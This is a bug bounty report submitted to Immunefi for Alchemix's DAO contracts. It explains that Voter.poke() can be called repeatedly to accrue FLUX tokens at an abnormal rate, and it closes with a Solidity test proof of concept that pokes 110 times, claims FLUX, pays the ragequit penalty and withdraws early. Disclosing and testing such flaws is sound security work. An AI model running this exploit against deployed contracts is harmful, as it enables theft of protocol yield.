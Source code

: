 
# Voter.poke() can be called at will, leading to a user accruing FLUX at an abnormal rate.

Submitted on Tue May 07 2024 15:34:31 GMT-0400 (Atlantic Standard Time) by @dirtymic for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30906

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
After a user votes, they can call poke however many times they want. This accrues Flux each time it recasts their vote. Giving them access to either Ragequit and withdraw early or leave the unclaimed flux and max boost their future votes, as well as walk away with leftover Flux tokens.

## Vulnerability Details
Once a user votes, they cannot vote again until the next epoch. However `Voter.poke()` can be called at any time. In the `poke` function `_vote` is called.

In `_vote` there is a call to the flux token contract that accrues unclaimed Flux.

```
...
    _reset(_tokenId);

        uint256 _poolCnt = _poolVote.length;
        uint256 _totalVoteWeight = 0;
        uint256 _totalWeight = 0;

        for (uint256 i = 0; i < _poolCnt; i++) {
            _totalVoteWeight += _weights[i];
        }

        IFluxToken(FLUX).accrueFlux(_tokenId);
...
```

This accrues the unclaimed Flux balance of the _tokenId by the amount of `claimableFlux` received from the VotingEscrow.sol contract

```
function claimableFlux(uint256 _tokenId) public view returns (uint256) {
        // If the lock is expired, no flux is claimable at the current epoch
        if (block.timestamp > locked[_tokenId].end) {
            return 0;
        }

        // Amount of flux claimable is <fluxPerVeALCX> percent of the balance
        return (_balanceOfTokenAt(_tokenId, block.timestamp) * fluxPerVeALCX) / BPS;
    }
```

Poke can be called at whim after a user has voted allowing a user to accrue Flux whenever they want. The amount of Flux accrued grows in proportion to the balance of veALCX of a tokenId.

## Impact Details

A user can accrue Flux at an abnormal rate using `poke()`, this allows a user to exit from a lock within 1 epoch by calling `poke()` enough times to accrue a large enough balance to pay the Ragequit penalty. If a user were to create a lock with 1 token, vote, and then call poke 110 times. They would have enough Flux to pay the penalty and walk away with 7.5 Flux tokens.

A user also has the option to leave the unclaimed Flux and use it to max boost their future votes.


## References
Poke:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L194-L212
_vote:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412-L455
accrueFlux:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L187-L192
claimableFlux:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L376-L385

        
## Proof of concept
## Proof of Concept

This was written in the provided Voting.t.sol

```
function testVoteAndPoke() public {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);

        hevm.startPrank(admin);

        hevm.warp(block.timestamp + nextEpoch);

        address[] memory pools = new address[](1);
        pools[0] = alETHPool;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        voter.vote(tokenId, pools, weights, 0);

        for (uint i = 0; i < 110; i++) {
            voter.poke(tokenId);
        }

        address[] memory poolVote = voter.getPoolVote(tokenId);
        assertEq(poolVote[0], alETHPool);

        uint256 penaltyAmount = veALCX.amountToRagequit(tokenId);

        flux.claimFlux(tokenId, penaltyAmount);

        flux.approve(address(veALCX), penaltyAmount);

        veALCX.startCooldown(tokenId);

        hevm.warp(block.timestamp + nextEpoch);

        voter.reset(tokenId);

        uint256 flux1 = flux.unclaimedFlux(tokenId);

        veALCX.withdraw(tokenId);

        uint256 fluxBalanceAfter = flux.balanceOf(admin);

        assertEq(fluxBalanceAfter, flux1);

        emit Message("Admin balance after withdraw", IERC20(bpt).balanceOf(admin));

    }
```